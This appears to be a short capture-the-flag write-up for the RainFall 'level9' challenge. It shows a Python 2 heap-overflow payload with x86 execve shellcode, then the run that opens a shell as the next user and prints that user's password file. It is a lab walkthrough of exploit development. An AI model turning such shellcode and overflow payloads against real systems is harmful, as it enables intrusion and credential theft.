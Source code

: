 ```
buffer_addr = '\x0c\xa0\x04\x08' # obj1->annotation address on heap
shellcode_addr = '\x10\xa0\x04\x08' # obj1->annotation + 4
nop = '\x90' * 5

shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'

padding_len = 108 - len(shellcode_addr) - len(nop) - len(shellcode)

padding = '\x90' * padding_len

payload = shellcode_addr + nop + shellcode + padding + buffer_addr

print payload,
```

The output:

```
level9@RainFall:~$ ./level9 `python2 payload.py`
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

The shellcode on payload was executed successfully, See you on the next challenge (`bonus0`).
